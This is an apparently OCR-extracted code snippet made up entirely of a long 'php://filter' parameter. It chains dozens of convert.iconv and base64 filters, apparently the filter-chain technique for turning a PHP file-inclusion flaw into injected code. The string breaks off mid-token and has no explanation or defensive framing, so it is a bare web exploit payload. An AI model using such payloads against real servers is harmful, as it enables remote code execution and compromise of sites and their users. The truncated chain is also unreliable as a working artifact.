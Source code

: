 ```php
file=php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.CP869.CSIBM1163|convert.iconv.ISO2022KR.UNICODE|convert.iconv.LATIN3.NAPLPS|convert.iconv.ISO-IR-156.UNICODEBIG|convert.iconv.ISO885915.CSISO90|convert.iconv.ISO-IR-156.8859_9|convert.iconv.CSISOLATINGREEK.MSCP1361|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.CP922.CSISOLATIN5|convert.iconv.ISO2022KR.UTF-32|convert.iconv.IBM912.ISO-IR-156|convert.iconv.ISO-IR-99.CSEUCPKDFMTJAPANESE|convert.iconv.8859_9.ISO_6937-2|convert.iconv.CSISO99NAPLPS.CP902|convert.iconv.ISO-IR-143.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.PT154.874|convert.iconv.CSISO2022KR.UTF-32|convert.iconv.CSIBM901.ISO_6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.CSISO2022KR.UTF16|convert.iconv.LATIN6.CSUCS4|convert.iconv.UTF-32BE.ISO_6937-2:1983|convert.iconv.ISO-IR-111.CSWINDOWS31J|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.BIGFIVE.UTF32|convert.iconv.WINSAMI2.T.61|convert.iconv.CSA_T500.EUCJP-WIN|convert.iconv.CP855.UTF-16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.BIGFIVE.UTF32|convert.iconv.WINSAMI2.T.61|convert.iconv.CSISO90.UCS-4BE|convert.iconv.OSF00010004.UTF32|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.BIGFIVE.UTF32|convert.iconv.WINSAMI2.T.61|convert.iconv.CSISO90.ISO-10646/UTF-8|convert.iconv.BALTIC.SHIFT_JISX0213|convert.iconv.CP949.CP1361|convert.iconv.CSISOLATIN2.T.61|convert.iconv.IBM932.BIG-5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.BIGFIVE.UTF32|convert.iconv.WINSAMI2.T.61|convert.iconv.ISO-IR-156.CSUCS4|convert.iconv.KOI8-T.CSIBM932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.BIGFIVE.UTF32|convert.iconv.WINSAMI2.T.61|convert.iconv.NAPLPS.UCS-4|convert.iconv.ISO_8859-4.T.618BIT|convert.iconv.CSISO103T618BIT.BIG5-HKSCS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.CP869.CSIBM1163|convert.iconv.ISO2022KR.UNICODE|convert.iconv.LATIN3.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.CP869.CSIBM1163|convert.iconv.ISO2022KR.UNICODE|convert.iconv.LATIN3.NAPLPS|convert.iconv.ISO-IR-156.UNICODEBIG|convert.iconv.ISO885915.CSISO90|convert.iconv.BIGFIVE.CSIBM943|convert.iconv.LATIN6.WINDOWS-1258|convert.iconv.CP1258.CSISO103T618BIT|convert.iconv.NAPLPS.OSF10020359|convert.iconv.WINDOWS-1256.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-GR.UNICODE|convert.iconv.ISO_8859-14:1998.UTF32BE|convert.iconv.OSF00010009.ISO2022JP2|convert.iconv.UTF16.ISO-10646/UTF-8|convert.iconv.UTF-16.UTF8|convert.iconv.ISO_8859-14:1998.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.CP869.CSIBM1163|convert.iconv.ISO2022KR.UNICODE|convert.iconv.LATIN3.NAPLPS|convert.iconv.ISO-IR-156.UNICODEBIG|convert.iconv.ISO885915.CSISO90|convert.iconv.BIGFIVE.CSIBM943|convert.iconv.LATIN6.WINDOWS-1258|convert.iconv.CP1258.CSISO103T618BIT|convert.iconv.NAPLPS.OSF10020359|convert.iconv.WINDOWS-1256.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.CP922.CSISOLATIN5|convert.iconv.ISO2022KR.UTF-32|convert.iconv.IBM912.ISO-IR-156|convert.iconv.ISO-IR-103.CSEUCPKDFMTJAPANESE|convert.iconv.OSF00010002.UNICODE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.BIGFIVE.UTF32|convert.iconv.WINSAMI2.T.61|convert.iconv.ISO-IR-99.CSEUCPKDFMTJAPANESE|convert.iconv.CSEUCKR.UTF-32|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.BIGFIVE.UTF32|convert.iconv.WINSAMI2.T.61|convert.iconv.ISO-IR-156.CSUCS4|convert.iconv.KOI8-T.CSIBM932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.BIGFIVE.UTF32|convert.iconv.WINSAMI2.T.61|convert.iconv.CSISO90.UCS-4BE|convert.iconv.OSF00010004.UTF32|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO-IR-6.ISO646-DE|convert.iconv.ISO2022KR.UTF32|convert.iconv.MAC-UK.ISO-10646|convert.iconv.UCS-4BE.855|convert.iconv.ISO88599.CSISO90|convert.iconv.ISO_6937:1992.10646-1:1993|convert.iconv.CP773.UNICODE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UK.852|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.CP922.CSISOLATIN5|convert.iconv.ISO2022KR.UTF-32|convert.iconv.IBM912.ISO-IR-156|convert.iconv.ISO-IR-99.CSEUCPKDFMTJAPANESE|convert.iconv.8859_9.ISO_6937-2|convert.iconv.ISO6937.UCS-2LE|convert.iconv.CP864.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.CP869.CSIBM1163|convert.iconv.ISO2022KR.UNICODE|convert.iconv.LATIN3.NAPLPS|convert.iconv.ISO-IR-156.UNICODEBIG|convert.iconv.ISO885915.CSISO90|convert.iconv.ISO-IR-156.8859_9|convert.iconv.CSISOLATINGREEK.MSCP1361|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.BIGFIVE.UTF32|convert.iconv.WINSAMI2.T.61|convert.iconv.ISO-IR-156.CSUCS4|convert.iconv.KOI8-T.CSIBM932|convert.iconv.CSIBM932.IBM866NAV|convert.iconv.IBM775.UTF32|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.BIGFIVE.UTF32|convert.iconv.WINSAMI2.T.61|convert.iconv.ISO-IR-156.CSUCS4|convert.iconv.KOI8-T.CSIBM932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|conver
```
